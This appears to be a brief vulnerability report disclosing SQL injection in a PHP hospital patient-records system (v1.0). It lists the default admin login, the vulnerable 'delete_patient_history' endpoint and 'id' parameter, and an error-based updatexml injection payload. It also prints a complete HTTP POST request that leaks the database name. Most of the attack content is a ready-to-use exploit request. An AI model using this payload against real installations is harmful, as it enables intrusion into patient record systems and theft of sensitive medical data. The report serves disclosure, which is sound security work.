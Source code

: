 # Hospital's Patient Records Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

Vulnerability File: /hprms/classes/Master.php?f=delete_patient_history

Vulnerability location: /hprms/classes/Master.php?f=delete_patient_history, id

Current database name: hprms_db ,length is 8

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /hprms/classes/Master.php?f=delete_patient_history HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/171824701-505e6e6f-881f-42fc-8cfb-b7519495febe.png)

